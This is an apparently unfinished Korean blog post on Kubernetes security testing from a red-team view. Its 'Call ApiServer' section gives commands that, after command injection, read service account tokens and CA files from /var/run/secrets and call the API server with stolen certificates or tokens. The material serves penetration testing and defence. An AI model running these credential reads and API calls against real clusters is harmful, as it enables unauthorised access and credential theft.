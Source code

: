```yaml
---
title: "[K8S] Security"
# author: wrkholic84
date: 2024-02-08 00:06:00 +0900
categories: [Development, Kubernetes]
tags: [kubernetes, security]
math: true
mermaid: true
# image:
#   path: /commons/devices-mockup.png
#   width: 800
#   height: 500
#   alt: Responsive rendering of Chirpy theme on multiple devices.
---
```


# Kubernetes for RedTeam
Kubernetes에 대한 경험과 이해가 다르고,
보안 취약점 점검 시 관련 내용에 대한 접근이 어려운 이유로,
kubernetes 취약점 발견과 연구를 충분히 수행하기에 어려움이 있음  
이를 위해, 다음 과정을 통해 kubernetes에 대한 정리와 점검 방법에 대한 평준화를 이루고자 함

## Prerequisite Knowledge
### 1.Abstract Concept
![00](/assets/images/posts/20221226Security/00.png)
일반적으로 Kubernets 환경에 구축된 서비스는 위 그림과 같이 Apiserver와 Service 두 개의 접근 경로를 가짐.  
- Apiserver는 kubernetes 환경 전체를 제어
- Service(kuberntes resource)는 웹서비스를 인터넷과 연결해주는 역할 및 파드간 통신에 사용

우리의 목표는 이 두 가지 경로를 통해 취약점을 찾고, 안전한 서비스를 만드는 것.

### 2.ApiServer
**Apiserver**는 kubernetes 자체라고 봐도 무방함. api를 호출하는 방식으로 권한에 따라 kubernetes 전체 환경을 제어할 수 있음. 성공적인 api 호출은 인증 > 권한 > Admission Control 3단계를 모두 통과해야 함.

- Admission Control : 리소스 사용 제한 등  

RBAC이라고 하는 인증 (사용자, 서비스)에 권한(역할)이 부여되는 구조로, 인증 정보를 얻으면 인증에 해당하는 권한을 행사할 수 있음. 권한 및 Admission Control 관리를 위한 별도의 권한(관리자) 및 과정 필요.  

따라서 우리가 접근하여 활용할 수 있는 부분은 **인증**에 한정됨. 

Kubernetes의 인증은 다른 시스템과 마찬가지로 **사용자 인증**과 **서비스 인증**으로 나뉨. 이 두 가지 중 한 가지로 Apiserver를 호출 할 수 있음. 

- 사용자 인증 정보는 운영 환경이나 서비스 환경에 <U>인증서</U> 형태로 존재.  
- 서비스 인증 정보는 애플리케이션(컨테이너) 내 <U>토큰</U> 형태로 존재.

둘 중 하나의 정보를 얻기 위해 노력해야 함.

### 3.Pod Design Pattern
Pod는 Kubernetes에 의해 관리되는 애플리케이션의 최소 단위이며, 여러 컨테이너들의 집합.  
다음과 같은 패턴을 가짐.
![01](/assets/images/posts/20221226Security/01.png)
굳이 패턴 이야기를 하는 이유는 우리가 Command Injection이나 SSRF등의 애플리케이션 취약점을 이용해 접근할 수 있는 자원에 대한 이해를 높이기 위함임.

- Sidecar : Metric, Log 등을 위한 용도로 많이 쓰임. Istio가 대표적. 파일 시스템을 공유하고 있는 부분이 공략 포인트.
- Adapter : 애플리케이션의 출력 포멧을 통일 시키는 용도로 쓰임. 몰라도 됨.
- Ambassador : localhost를 목적지로 통신하는 애플리케이션을 쉽게 배포할 때 쓰임. 예를 들어, 애플리케이션이 localhost:3306(MySQL)과 통신한다면, Ambassador 컨테이너는 이 요청을 받아 필요한 목적지로 연결해줌. SSRF 시 고려해볼 수 있음.

### 4.Container
Pod 안에 정의되며, 다음과 같은 다양한 자원들을 정의하여 사용 가능.
- ServiceAccount : Pod가 ApiServer와 상호 작용할 수 있도록 권한을 부여해 놓은 자격 증명
- Secret : 암호, 토큰 또는 키와 같은 소량의 중요한 데이터를 포함하는 오브젝트
- ConfigMap : Key - Value 값 쌍으로 기밀이 아닌 데이터를 저장하는 데 사용하는 API 오브젝트
- Volume : 영구적으로 사용 가능한 Pod 외 지정된 별도 저장소

취약점 점검을 하다보면 애플리케이션 서버의 쉘을 획득할 수 있는 때가 있는데, 이 때, 이 정보들을 확인할 필요가 있고, 이 정보를 통해 추가 보안 취약점을 찾을 수 있음.

## Call ApiServer
Apiserver에 접근할 수 있는 경로는 두 가지임. 인터넷 또는 Data Plane. 호출 가능한 곳에서 호출하면 되고, 아래 설명은 한 가지씩 나누어 호출해보는 것으로 설명.
### 1.with User Certificate (from Internet)
취약점 등을 통해 사용자 인증서와 키를 얻었다면 apiserver를 호출 할 수 있음
```bash
ubuntu@mypc:~$ curl -k --cert ./user.crt --key ./user.key https://kubernetes:6443/api
{
  "kind": "APIVersions",
  "versions": [
    "v1"
  ],
  "serverAddressByClientCIDRs": [
    {
      "clientCIDR": "0.0.0.0/0",
      "serverAddress": "x.x.x.x:6443"
    }
  ]
}
```
사용자 인증서와 키는 base64로 인코딩되어 있을 수도 있음
```bash
ubuntu@mypc:~$ cat ./user.crt | base64 | tr -d "\n" 
LS0tLS1C...
ubuntu@mypc:~$ cat "LS0tLS1C..." | base64 -d
-----BEGIN CERTIFICATE-----
MIIDTzCCAjegAwIBAgIQYPmmYnZ...
-----END CERTIFICATE-----
```
### 2.with ServiceAccount Token (in Containers)
Command Injection 등을 통해 컨테이너 내부에 명령 실행을 할 수 있다면,
#### 2.1.get Kubernetes Information from env
```bash
Command Injection : env | grep -i kubernetes
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_SERVICE_HOST=10.96.0.1
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
KUBERNETES_PORT_443_TCP_PROTO=tcp
```
#### 2.2.get Kubernetes Information from nslookup
```bash
Command Injection : nslookup kubernetes.default.svc
Server:		10.96.0.10
Address:	10.96.0.10#53

Name:	kubernetes.default.svc.cluster.local
Address: 10.96.0.1
```
#### 2.3.get Kubernetes Information from ServiceAccount
```bash
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/token
eyJhbGciOiJSUz ...
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
hack8s
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
-----BEGIN CERTIFICATE-----
MIIDB ...
```
안되는 명령들이 있을 수 있지만, token만 확인이 된다면, 아래 명령을 통해 apiserver를 호출해 볼 수 있음.
```bash
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/token
eyJhbGciOiJSUzI...
Command Injection : curl --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt --header "Authorization: Bearer eyJhbGciOiJSUzI..." -X GET https://kubernetes:6443/api/v1/namespaces/hack8s/pods
{
  "kind": "PodList",
  "apiVersion": "v1",
  "metadata": {
    "resourceVersion": "266526"
  },
  "items": [
    {
      "metadata": {
        "name": "busybox",
        ...
      }
    }
  ]
}
```
## Docker in Docker
### 3. Download Docker

## SSRF
Kubernetes HelmChart를 획득했다면, 다음 시도를 해보는 것도 도움이 될 수 있음
애플리케이션 취약점 분석을 위해 개발자 도구를 활용하듯, Kubernetes 취약점 분석을 위해 CD(Continuous Delivery) 툴을 활용해보자.
### 1.ArgoCD
작성중

